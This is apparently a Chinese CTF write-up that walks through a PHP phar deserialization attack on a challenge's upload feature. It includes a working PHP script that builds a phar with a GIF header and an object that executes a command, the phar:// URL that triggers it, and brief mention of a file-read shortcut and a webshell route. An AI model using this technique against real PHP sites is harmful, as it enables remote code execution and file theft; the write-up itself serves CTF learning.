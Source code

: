 在`__construct()`方法中有以下两行

```php
$sandbox = getcwd()."/uploads/".md5($_SESSION['user'])."/";
$this->Filename = $sandbox.$_SESSION['user'].$ext;
```

随便上传一个txt，回显

![avatar](https://k1ng0fic3.github.io/images/sql25.png)

得到的`GXY939d6b01691234e49fa8ec7eafb79a55`就是$_SESSION['user']

然后在本地生成phar文件：

```php
<?php
class Uploader{
	public $Filename;
	public $cmd;
	public $token;
}

$o = new Uploader();
$o->cmd = 'highlight_file("/var/www/html/flag.php");'; //里面的命令不要出现单引号否侧生成phar会报错
$o->Filename = '1';
$o->token = 'GXY939d6b01691234e49fa8ec7eafb79a55'; //$_SESSION['user']
echo serialize($o);

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub，增加gif文件头
$phar->setMetadata($o); //将自定义meta-data存入manifest
$phar->addFromString("1.txt", "1"); //添加要压缩的文件
$phar->stopBuffering();
```

![avatar](https://k1ng0fic3.github.io/images/sql26.png)

将此phar文件上传，获取路径

![avatar](https://k1ng0fic3.github.io/images/sql27.png)

`/var/www/html/uploads/74def8c80bd66ac6e4585ea8fb35c9f4/GXY939d6b01691234e49fa8ec7eafb79a55.txt`

在路径前加上phar协议，用来作为name变量的值，访问即可。

>home.php?file=upload&name=phar:///var/www/html/uploads/74def8c80bd66ac6e4585ea8fb35c9f4/GXY939d6b01691234e49fa8ec7eafb79a55.txt

在跳转页面上随便上传一个文件，触发反序列化，得到flag

![avatar](https://k1ng0fic3.github.io/images/sql28.png)

##### 非预期

*Nepnep*师傅们的思路，真是简单无比。
由于有
>echo file_get_contents($uploader);

这行代码存在。上传后会显示出`$uploader`这个文件的内容，所以只要使`$this->Filename`为`flag.php`，然后随便传个东西就会得到flag了。

![avatar](https://k1ng0fic3.github.io/images/sql29.png)

此外还有颖奇师傅利用出题人在正则表达式处的匹配错误，利用一句话+蚁剑打的非预期，不再细说了。

还是太菜了，要多多向Web大佬巨神们学习才行。